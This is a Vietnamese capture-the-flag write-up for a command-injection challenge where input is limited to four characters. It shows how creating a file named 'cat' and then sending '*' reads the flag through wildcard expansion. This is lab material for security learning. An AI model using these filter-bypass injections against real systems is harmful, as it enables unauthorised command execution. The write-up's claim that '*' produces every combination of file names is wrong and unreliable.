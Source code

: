 # Command Injection

**Tên challenge:** Command Limit Length

**Link challenge:** [Here](https://battle.cookiearena.org/skills-path/os-command-injection/challenge/command-limit-length)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Trang Web cho phép người quản trị thực thi lệnh hệ thống để giám sát từ xa. Tuy nhiên để đảm bảo cho hệ thống an toàn, lập trình viên đã chặn rất nhiều tập lệnh và độ dài của chuỗi nhập vào cũng bị giới hạn. Quả thật, không ai có thể vượt qua cơ chế bảo mật này!

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng nhập Command như sau:

![alt text](./images/image.png)

**B2:** Ta thử nhập `id`:

![alt text](./images/image-1.png)

**B3:** Ta thử nhập lệnh `whoami` thì phát hiện trang Web chỉ cho nhập tối đa 4 ký tự:

![alt text](./images/image-2.png)

**B4:** Ta tiếp tục nhập lệnh `ls` thì phát hiện trang Web đã filter lệnh `ls`:

![alt text](./images/image-3.png)

**B5:** Trong Linux thì ngoài lệnh `ls` thì ta vẫn có thể dùng lệnh `dir` như trên Windows để view file:

![alt text](./images/image-4.png)

Do Website chỉ cho phép nhập tối đa 4 ký tự nên ta không thể dùng lệnh `cat *` để đọc `Flag` được.

Sau khi tìm hiểu thì ta tìm được cách Bypass Challenge này.

Cụ thể, ta tiến hành thí nghiệm sau trong Linux, giả sử ta có 1 folder rỗng như sau:
```
$> ls -la
total 11
drwxr-xr-x 2 root root 4096 Nov 25 09:13 .
drwxr-xr-x 9 root root 4096 Nov 25 09:09 ..
```
Sau đó, ta sẽ tạo 1 file `test.txt` có nội dung là `hello`
```
$> ls -la
total 12
drwxr-xr-x 2 root root 4096 Nov 25 09:13 .
drwxr-xr-x 9 root root 4096 Nov 25 09:09 ..
-rw-r--r-- 1 root root    5 Nov 25 09:10 test.txt

$> cat test.txt
hello
```
Tiếp đến, ta sẽ thử tạo 1 file có tên là `cat` với nội dung là rỗng thông qua lệnh:
```
$> >cat

$> ls -la
total 13
drwxr-xr-x 2 root root 4096 Nov 25 09:13 .
drwxr-xr-x 9 root root 4096 Nov 25 09:09 ..
-rw-r--r-- 1 root root    0 Nov 25 09:34 cat
-rw-r--r-- 1 root root    5 Nov 25 09:10 test.txt
```
Cuối cùng, ta sẽ thử sự kỳ diệu của dấu `Wildcard` ( `*` ):
```
$> *
hello
```

**Giải thích:**
* Khi ta nhập dấu `*` trong Linux thì bạn hãy tưởng tượng nó sẽ lấy tất cả các file đưa vào chung 1 mảng ( **VD:** `[cat, flag.txt, abc.txt]` ).
* Sau đó, Linux sẽ ghép tất cả các file vào với nhau. ( **VD:** `cat flag.txt`, `cat abc.txt`, `flag.txt cat`, `flag.txt abc.txt`, `abc.txt cat`, `abc.txt flag.txt`, `cat flag.txt abc.txt`, ... ), thì điểm ta muốn lợi dụng ở đây là lệnh `cat flag.txt`, thì khi nó thực thi lệnh này thì nó sẽ trả về kết quả file `flag.txt` cho ta.

**B6:** Ta bắt đầu làm giống như thí nghiệm trên, đầu tiên ta tạo file `cat` thông qua lệnh `>cat`:

![alt text](./images/image-5.png)

Dù lệnh là `COMMAND NOT FOUND` nhưng khi ta dùng lệnh `dir`:

![alt text](./images/image-6.png)

=> Ta đã tạo thành công được file `cat`

**B7:** Ta bắt đầu nhập dấu `*` vào input:

![alt text](./images/image-7.png)

=> Vậy là ta đã thành công đọc được `Flag`.

<u>**Đọc thêm:**</u> https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#rce-with-4-chars